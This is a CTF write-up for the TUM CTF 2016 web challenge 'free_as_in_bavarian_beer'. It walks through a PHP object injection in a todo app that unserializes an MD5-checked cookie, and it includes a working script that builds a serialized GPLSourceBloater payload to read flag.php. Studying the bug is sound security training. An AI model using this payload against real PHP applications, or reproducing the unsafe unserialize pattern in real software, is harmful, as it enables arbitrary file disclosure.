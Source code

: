 ```yaml
---
layout: post
title: "TUM CTF 2016: free_as_in_bavarian_beer (web 50)"
author: verr
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** Web
* **Points:** 50
* **Description:**

> You have lots of stuff to do? Better start using this cool tool.
>
> http://104.154.70.126:10888
>
> PROTIP: Flag is in flag.php.

([dumped Sourcecode](https://gist.github.com/stefan2904/21a3b0ca10163f9fced6ab3767a92a08))

## Write-up

Since it's the easiest web challenge, it was easily possible to dump the sourcecode. The app is a simple todo manager, which stores the tasks in a cookie. Reading the code, we quickly noticed the suspicious `unserialize`:

```php
<?php
if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);
    if(md5($m) === $h){
        $todos = unserialize($m);
    }
}
?>
```

This is a prime example for [PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection). In this case it was not necessary to dig deeper into PHP internal classes, since the class in need was conveniently already present; the class used to display the source (and eny other file) ...

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}
?>
```

So we need to build a `GPLSourceBloater` object, set its `source` attribute to the desired file (`flag.php`) and serialize it.

```php
<?

Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}

$foo = new GPLSourceBloater();
$foo->source = 'flag.php';

$bar = [];
$bar[] = $foo;

$m = serialize($bar);
$h = md5($m);

echo urlencode($h.$m);

?>
```

After storing the serialized object to a cookie named `todos` and loading the page again, `__toString()` did its job and we were presented with the flag: 

```
hxp{Are you glad that at least Java(TM) isn't affected by serialization bugs?}
```


